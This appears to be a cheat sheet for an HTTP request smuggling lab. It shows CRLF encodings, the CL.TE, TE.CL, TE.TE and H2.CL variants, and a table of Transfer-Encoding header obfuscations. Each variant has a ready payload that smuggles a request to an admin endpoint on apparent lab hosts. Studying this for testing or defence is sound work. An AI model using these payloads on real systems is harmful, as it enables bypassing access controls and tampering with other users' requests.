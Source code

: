 ## CRLF Injection
|Description|Character|ASCII (Decimal)|ASCII (Hex)|URL Encoded|
|---|---|---|---|---|
|Carriage Return| `\r` | `13` | `0x0D` | `%0D`|
|Line Feed| `\n` | `10` | `0x0A` | `%0A`|


## Request Smuggling
#### Content-Length
- request body length specified in the `Content-Length` header
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

param1=HelloWorld&param2=Test
```

#### Chunked Encoding
- `Transfer-Encoding` header set to `chunked` to specify chunked encoding
- Each chunk contains the chunk length in hex followed by a newline and the chunk data
- Request terminated with empty chunk `0`
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
param1=HelloWorld&param2=Test
0


```

## CL.TE Vulnerability
- reverse proxy uses the `Content-Length` header, web server uses the `Transfer-Encoding` header
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

## TE.CL Vulnerability
- reverse proxy uses the `Transfer-Encoding` header, web server uses the `Content-Length` header
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0


```

## TE.TE Vulnerability
- obfuscate `Transfer-Encoding` header from one of the systems to provoke a CL.TE or TE.CL vulnerability

|Description|Header|
|---|---|
|Substring match|`Transfer-Encoding: testchunked`|
|Space in Header name| `Transfer-Encoding : chunked`|
|Horizontal Tab Separator| `Transfer-Encoding:[\x09]chunked`|
|Vertical Tab Separator|`Transfer-Encoding:[\x0b]chunked`|
|Leading space|` Transfer-Encoding: chunked`|

## HTTP/2 Downgrading
- HTTP/2 is a binary protocol
- HTTP/2 uses pseudo-headers:
	- `:method`: the HTTP method
	- `:scheme`: the protocol scheme (typically `http` or `https`)
	- `:authority`: similar to the HTTP `Host` header
	- `:path`: the requested path including the query string
- HTTP/2 downgrading occurs when the reverse proxy rewrites an HTTP/2 request from the client to an HTTP/1.1 request which is forwarded to the web server

## H2.CL vulnerability
- Injection of a `Content-Length` header which is used by the web server after the request was rewritten by the reverse proxy
```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 
```
